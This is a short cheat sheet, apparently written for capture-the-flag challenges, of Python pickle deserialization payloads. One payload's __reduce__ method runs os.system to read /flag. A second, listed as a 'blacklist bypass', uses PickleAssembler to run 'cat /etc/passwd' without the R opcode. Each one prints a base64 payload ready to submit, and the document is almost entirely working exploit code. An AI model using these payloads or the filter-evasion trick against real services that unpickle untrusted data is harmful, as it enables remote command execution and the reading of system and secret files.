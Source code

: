 # Pickle

### The simplest payload
```py
import pickle
import base64


class f:
    def __reduce__(self):
        import os
        return (os.system,("sleep 5 && cat /flag",))

print(f"Payload: {base64.b64encode(pickle.dumps(f()))}")
```

## Blacklist bypasses

### No R opcode

```py
# https://github.com/gousaiyang/pickleasse

import pickle
import pickletools
import base64 

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.util_push('cat /etc/passwd')
pa.build_inst('os', 'system')
payload = pa.assemble()
print(base64.b64encode(payload))

```

I'm a noob so that's all for now